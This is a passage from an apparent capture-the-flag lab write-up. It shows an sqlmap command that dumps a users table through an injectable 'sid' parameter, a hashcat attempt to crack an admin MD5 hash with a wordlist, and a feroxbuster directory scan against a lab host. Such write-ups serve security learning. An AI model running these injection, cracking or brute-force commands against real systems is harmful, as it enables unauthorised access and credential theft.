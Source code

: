 from there i tried to extract the users and possibly some passwords:
```bash
sqlmap 'http://10.10.84.228:873/rail/?page=reserve&sid=1*' -D orrs --dump --batch -D orrs -T users
```
	
![users table](./pic/user_table.png)
	
I tried to crack the hash like that:
```bash
echo '5765dcb76627ba4e2fd673e073def4ae' > admin_hash   #is not redacted cause is just a rabbit hole
hashcat -a 0 -m 0 admin_hash /usr/shares/wordlists/rockyou,txt
```
but no luck...<br>

So i tried passing over to the next port:

# Port 8820

As every port i runned a directory buster:
```bash
feroxbuster -u http://10.10.84.228:8820/  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,html,txt,bak,js,old
```
output:
	
![learn site](./pic/learn_site.png)
	
We got this page:
	
![learn page](./pic/learn_site_page.png)
	